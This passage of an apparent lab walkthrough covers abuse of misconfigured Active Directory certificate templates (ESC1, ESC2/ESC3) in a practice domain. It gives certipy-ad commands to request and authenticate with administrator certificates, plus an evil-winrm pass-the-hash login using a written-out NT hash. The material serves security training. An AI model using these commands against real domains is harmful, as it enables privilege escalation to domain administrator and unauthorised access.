 - authentication with the pfx we request before
```
certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.56.12
```
![screenshot](pics/certipy-auth_ESC1.png)

```
evil-winrm -i 192.168.56.12 -u administrator -H '54296a48cd30259cc88095373cec24da'
```

> if you get the error : “[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)”, the lab is in error, i don’t know why sometimes it is not working by now, but you can reboot DC3 to fix this: `vagrant reload DC03`

## ADCS - ESC2 & ESC3

- As said in the certipy page : _“ESC2 is when a certificate template can be used for any purpose. Since the certificate can be used for any purpose, it can be used for the same technique as with ESC3 for most certificate templates.”_
    
- Let’s distinguish the 2 attacks by trying with ESC2 :
    

- Query cert
```
certipy-ad req -u khal.drogo@essos.local -p 'horse' -target 192.168.56.23 -template ESC2 -ca ESSOS-CA
```


- Query cert with the Certificate Request Agent certificate we get before (-pfx)


```
certipy-ad req -u khal.drogo@essos.local -p 'horse' -target 192.168.56.23 -template User -ca ESSOS-CA -on-behalf-of 'essos\administrator' -pfx khal.drogo.pfx
```

- Auth
```
certipy-ad auth -pfx administrator_098a2daa-ec39-4b75-957e-fb5eacf0800e.pfx -dc-ip 192.168.56.12
```
![screenshot](pics/certipy-ad_ESC2_auth.png)
